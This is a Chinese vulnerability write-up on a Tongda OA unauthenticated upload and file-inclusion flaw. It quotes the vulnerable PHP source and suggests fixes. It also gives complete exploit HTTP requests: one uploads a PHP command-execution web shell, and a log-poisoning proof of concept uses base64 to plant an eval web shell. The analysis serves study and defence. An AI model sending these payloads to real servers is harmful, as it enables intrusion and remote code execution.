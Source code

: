 ```yaml
---
layout: post
title:  "通达OA文件包含漏洞"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA文件上传和文件包含漏洞分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

在2020年3月初的时候，有安全厂商发布公告称通达OA被入侵后被黑产利用。今日再来分析此漏洞的时候发现，其实和文件上传没关系，也根本不是任意文件上传漏洞。而是一个思路很好的文件包含漏洞。漏洞的触发条件是在无需登录的条件下上传一个jpg等其他图片格或其他文件格式的非PHP格式的文件即可，然后再利用文件包含漏洞去包含导致漏洞触发。漏洞问题的触发点在于文件包含。除了剪切图片操作之外，很难保证上传图片的内容安全。

影响版本：V11版、2017版、2016版、2015版、2013增强版、2013版（具体未实际测试）

1.文件上传的数据包：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Content-Length: 658

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

2.文件包含数据包：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

json={"url":"/general/../../attach/im/2006/2097931002.zip"}&cmd=whoami
```



## 0x02 漏洞分析

### 一、文件上传

- /ispirit/im/upload.php:5-13行。5行进行判断，变量P存在并不为空的话则执行6-10行代码。如果变量P不存在，或者是等于空的话。则执行else语句，包含auth.php。

  ```php
  if (isset($P) || ($P != "")) {
  	ob_start();
  	include_once "inc/session.php";
  	session_id($P);
  	session_start();
  	session_write_close();
  }
  else {
  	include_once "./auth.php";
  }
  ```

- ispirit\im\auth.php。查看auth.php代码，发现此文件作用为校验用户是否登录。所以如果P存在，并且不为空的话即可在非登录状态下进行上传。

  ```php
  include_once "inc/session.php";
  session_start();
  session_write_close();
  include_once "inc/conn.php";
  include_once "inc/utility.php";
  ob_start();
  if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  	sleep(1);
  	if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  		echo "-ERR " . _("用户未登陆");
  		exit();
  ```

### 二、文件包含

- /mac/gateway.php:41行。对url进行了包含处理。

  ```php
  	if ($url != "") {
  		if (substr($url, 0, 1) == "/") {
  			$url = substr($url, 1);
  		}
  		include_once $url;
  	}
  ```

- 

**思考：**其实这个地方除了可以通过文件上传之后进行包含之外，也可以通过包含其他文件进行利用，比如包含日志文件：

poc1：

> GET /mac/gateway.php?json={}&aa=<?php @fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));?> HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
> Accept-Encoding: gzip, deflate
> Connection: close
> Cookie: USER_NAME_COOKIE=admin; SID_1=b51a8646; PHPSESSID=olai0tkt0oqhcblhha71f42q21; OA_USER_ID=admin
> Upgrade-Insecure-Requests: 1

poc2：

> POST /mac/gateway.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: python-requests/2.21.0
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 56
>
> json={"url":"../ispirit/../../nginx/logs/oa.access.log"}

执行完poc1和poc2之后，便会在mac目录下生成lost.php。

### 三、漏洞修复

- url参数禁止用户可控。
- 在路径中禁止出现./等字符。

## 0x03 参考链接

- http://www.0e0w.com
